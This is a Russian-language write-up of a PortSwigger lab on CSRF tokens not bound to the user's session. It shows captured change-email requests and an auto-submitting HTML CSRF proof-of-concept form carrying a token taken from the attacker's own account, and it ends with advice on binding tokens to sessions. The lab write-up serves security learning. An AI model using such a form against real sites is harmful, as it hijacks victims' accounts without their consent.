


### Токен CSRF не привязан к сеансу пользователя

Некоторые приложения не подтверждают, что токен принадлежит тому же сеансу, что и пользователь, делаюший запрос. Вместо этого приложение поддерживает глобальный пул токенов, которые оно выпустило, и принимает любой токен, который появляется в этом пуле.

В этой ситуации злоумышленник может войти в приложение, используя свою собственную учетную запись, получить действительный токен, а затем передать этот токен пользователю-жертве в их атаке CSRF.

----

лаба https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session
задание:
через CSRF сменить емейл адресс

-----

есть функционал смены емейл
вот запрос на смену

```http
POST /my-account/change-email HTTP/2
Host: 0a2800d2040464e5811c433e00cb0066.web-security-academy.net
Cookie: session=LTjAQpm1gScsEIsbeuRIvWPcof0hHWMH
Content-Length: 58
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a2800d2040464e5811c433e00cb0066.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a2800d2040464e5811c433e00cb0066.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

email=hacker%40bk.ru&csrf=USL24tizGuRwXGgdgJuGyKadOf37epIB
```

повторно использовать один и тот же токен нельзя 
сразу ошибка
```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 20

"Invalid CSRF token"
```

---
но я могу легко перехватить запрос и использовать токен

либо так: на стр GET /my-account?id=wiener 
токен приходит в скрытом поле!




-----

обновляю стр и беру свежий неиспользованный токен

иду на https://csrf-poc-generator.vercel.app

и получаю

собачку обратно расскодирую
```html
<html>
  <body>
    <form action="https://0a2800d2040464e5811c433e00cb0066.web-security-academy.net
/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker666@bk.ru" />
      <input type="hidden" name="csrf" value="IuuxOi9lgVOPWUi0J9SwV90mJCbyJKEk" />
    </form>
    <script>
      document.forms[0].submit()
    </script>
  </body>
</html>
```

и отправляю все это дело в эксплойт сервер лабы и скидываю все жертве

и все - ЛАБА РЕШЕНА




-----

#### вывод

получается - что токен csrf не был привязан к конкретному юзеру 

и токен берется из общего банка данных (то есть логики тут практически нет)
на то и нужен тестер - чтобы находить такое на раннем этапе

я залогинился под своим пользователем wiener взял свежий токен со страницы аккаунта и использовал его в атаке на жертву  
сервер увидел что токен есть в пуле и выполнил действие хотя токен принадлежал другому пользователю

-----

чтобы защититься нужно жестко привязывать csrf токен к сессии конкретного пользователя  
при валидации сервер должен проверять что токен в запросе соответствует именно той сессии которая делает запрос

нельзя использовать глобальный пул где любой токен подходит для любого пользователя  
токен должен храниться в сессии и сравниваться с тем что пришел в запросе

--------
